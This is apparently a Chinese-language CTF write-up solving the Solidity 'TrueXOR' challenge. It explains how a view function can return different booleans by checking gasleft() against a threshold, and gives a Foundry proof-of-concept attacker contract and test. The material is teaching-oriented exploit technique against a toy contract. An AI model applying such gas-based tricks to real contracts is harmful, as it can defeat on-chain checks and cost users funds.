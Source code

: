 ## TrueXOR

### 目标

成功调用 `ctf` 函数, 函数参数 `target` 是你部署的合约地址, 且实现了 `IBoolGiver` 接口。

### 分析

在 `ctf` 函数中

```solidity
function ctf(address target) external view returns (bool) {
  bool p = IBoolGiver(target).giveBool();
  bool q = IBoolGiver(target).giveBool();
  require((p && q) != (p || q), "bad bools");
  require(msg.sender == tx.origin, "bad sender");
  return true;
}
```

在条件中要求 `(p && q) != (p || q)`, 即前后调用 `giveBool()` 应返回不同的布尔值。

注意到 `giveBool` 有 `view` 修饰符, 意味着不能通过全局变量的方式修改。只能读。

唯一变化的是在通过合约调用 `view` 方法时, `gas` 的变化。

可以记录两次调用 `giveBool` 方法的 `gasleft()`

```solidity
function giveBool() external view override returns (bool) {
    uint gasLeft = gasleft();

    console.log(gasLeft); // 1040414411  | 1040408946
    return gasLeft < threshold;
}
```

设置阈值 `threshold` 处于这两个值中间, 例如设置为 `1040412000`

第一次调用时 `gasLeft` 大于 `threshold`, 返回 `false`
第一次调用时 `gasLeft` 小于于 `threshold`, 返回 `true`

### POC

```solidity
contract TrueXORAttacker is IBoolGiver {
    uint public threshold = 1040412000;
    function giveBool() external view override returns (bool) {
        uint gasLeft = gasleft();

        console.log(gasLeft); // 1040414411  | 1040408946
        return gasLeft < threshold;
    }
}

contract TrueXORTest is Test {
    TrueXOR public trueXOR;
    TrueXORAttacker public trueXORAttacker;
    address public deployer;

    function setUp() public {
        deployer = vm.addr(1);
        vm.startPrank(deployer);

        trueXOR = new TrueXOR();
        trueXORAttacker = new TrueXORAttacker();

        vm.stopPrank();
    }

    function testCallCTF() public {
        vm.startPrank(deployer, deployer);
        bool res = trueXOR.ctf(address(trueXORAttacker));

        assertEq(res, true);

        vm.stopPrank();
    }
}
```
